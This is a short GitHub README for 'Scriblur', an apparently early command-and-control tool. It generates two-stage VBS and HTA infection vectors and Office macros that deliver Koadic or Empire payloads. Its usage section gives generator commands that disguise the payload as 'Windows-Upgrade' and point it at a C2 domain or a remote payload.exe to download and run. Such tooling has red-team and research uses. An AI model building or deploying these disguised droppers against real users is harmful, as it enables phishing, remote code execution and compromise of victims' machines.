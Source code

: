 # Scriblur
The beginnings of a C2 framework. Currently without all the C2 stuff so far. Generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
Scriblur is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  python3 scriblur.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain

# HTA Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/hta.png)

For the Macro Subroutine:
  python3 scriblur.py -n Windows-Upgrade -e amazon.com/final/payload.exe

# Macro Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/macro.png)
